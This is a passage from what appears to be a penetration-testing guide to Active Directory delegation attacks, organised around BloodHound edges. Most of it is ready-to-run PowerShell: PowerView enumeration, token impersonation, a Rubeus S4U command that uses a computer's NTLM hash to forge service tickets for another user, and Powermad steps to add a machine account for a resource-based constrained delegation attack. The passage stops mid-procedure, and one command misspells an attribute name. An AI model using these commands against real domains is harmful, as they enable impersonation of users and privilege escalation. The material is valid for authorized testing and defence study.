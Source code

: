 ```
PS> Get-DomainUser <attackerComputerA> -Properties samaccountname,msds-allowedtodelegateto | Select -Expand msds-allowedtodelegateto
```

If the desired service is already stored as an SPN in the attribute msDS-AllowedToDelegateTo of Computer A, impersonation can be performed directly.

```
[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('<targetUser>')
$idToImpersonate.Impersonate()
[System.Security.Principal.WindowsIdentity]::GetCurrent() | Select name
```

Alternatively, Rubeus can be used to exploit this attack vector using the extension S4U2Self.
With the option altservice an alternative service is set in the Kerberos ticket (this service - here cifs - must of course also be offered by Computer B):

```
PS> Rubeus.exe s4u /user:<attackerComputerA> /rc4:<attackerComputerNtlmHash> /impersonateuser:<targetUser> /msdsspn:"<spn>/<fqdnTargetComputerB>" /altservice:cifs /ptt
```

## AddAllowedToAct (Resource Based Constrained Delegation-Attack)

This edge indicates that the source node has the right to manipulate the msDS-AllowedToActOnBehalfOfOtherIdentity property from the destination node.
After adding a computer account controlled by the attacker, the same attack scenario results as with AllowedToAct.
To begin with, it is worth checking the setting for MS-DS-MachineAccountQuota with Powerview:

```
PS> Get-DomainObject -Domain <domain> -Properties ms-ds-machineaccountquota | Select -First 1
```

Before that you can check if at least one of the DCs is running at least on version Windows Server 2012:

```
PS> Get-NetDomainController | Select name,osversion | Format-List
```

Then you should also check that the msDS-AllowedToActOnBehalfOfOtherIdentity attribute has no previous entries on the target computer:

```
PS> Get-NetComputer <targetComputer> | Select name,msds-allowedToActOnBehalfOfOtherIdentitiy | fl
```

Then, using the Powermad project, a new computer account is added to the Active Directory:

```
PS> New-MachineAccount -MachineAccount <newComputer -Password $(ConvertTo-SecureString '<newComputerPassword>' -AsPlainText -Force)
```

Then the Security Identifier (SID) of the new computer account is output using Powerview:
